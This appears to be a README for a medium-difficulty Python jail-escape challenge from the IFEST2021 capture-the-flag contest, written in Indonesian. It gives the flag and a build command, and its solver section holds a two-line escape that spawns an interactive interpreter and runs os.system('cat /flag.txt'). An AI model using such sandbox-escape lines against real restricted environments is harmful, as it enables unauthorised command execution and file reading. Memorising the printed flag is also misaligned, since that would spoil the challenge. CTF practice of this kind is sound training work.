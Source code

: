 # FLAG
`IFEST2021{on_the_way_to_find_my_brother!!!}`

# Kategori
Medium

# Description
Traveler telah ditangkap oleh Shogun, bantu Traveler untuk keluar dari penjara.

# Deploy 
`$ ./build_docker.sh`

# Solver
```
>> from code import interact as exit

>>> from os import system as s;s('cat /flag.txt')
```